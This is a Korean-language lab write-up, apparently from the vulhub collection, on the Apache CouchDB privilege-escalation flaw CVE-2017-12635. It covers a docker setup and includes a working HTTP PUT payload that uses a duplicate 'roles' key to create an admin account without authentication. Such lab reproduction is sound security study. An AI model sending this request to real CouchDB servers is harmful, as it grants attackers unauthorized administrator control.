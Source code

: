 # 아파치 Couchdb 원격 권한 상승 (CVE-2017-12635)

아파치 CouchDB는 오픈 소스 문서 지향 NoSQL 데이터베이스로, Erlang으로 구현되었습니다. CouchDB는 데이터를 저장, 전송 및 처리하는 데 여러 형식과 프로토콜을 사용합니다. 데이터를 저장할 때 JSON을 사용하며, MapReduce를 사용하는 쿼리 언어로 JavaScript를 활용하고, API에는 HTTP를 사용합니다.

Apache CouchDB 1.7.0 이전 및 2.1.1 이전 버전에서 Erlang 기반 JSON 파서와 JavaScript 기반 JSON 파서 간의 차이로 인해, 데이터베이스 내에서 액세스 제어를 위해 사용되는 roles에 중복 키가 포함된 _users 문서를 제출할 수 있습니다. 이 중 _admin 역할은 관리자 사용자를 나타내는 특별한 경우로 사용됩니다.

참고 링크.

 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
 - https://www.exploit-db.com/exploits/44498
 - http://bobao.360.cn/learning/detail/4716.html

## 환경 설정

환경을 컴파일 하고 시작해주세요.

```
docker compose up -d
```

환경이 시작된 후, ``http://your-ip:5984/_utils/``를 브라우징하여 웹 페이지를 볼 수 있으면, CouchDB가 성공적으로 시작되었음을 의미합니다. 그러나 로그인 없이는 아무 작업도 수행할 수 없습니다.

## 익스플로잇

데이터베이스에 유저를 추가하기 위한 기본적인 요청입니다.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

보시다시피, 403 오류가 반환됩니다: {"error": "forbidden", "reason": "Only _admin may set roles"}. 이는 관리자만이 이 엔드포인트를 사용할 수 있다는 것을 의미합니다.

![](1.png)

우회하려면 중복된 **roles**을 포함하는 요청을 보내야 합니다.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

성공적으로 `vulhub`유저가 `vulhub`의 비밀번호와 함께 생성되었습니다.

![](2.png)

로그인.

![](3.png)
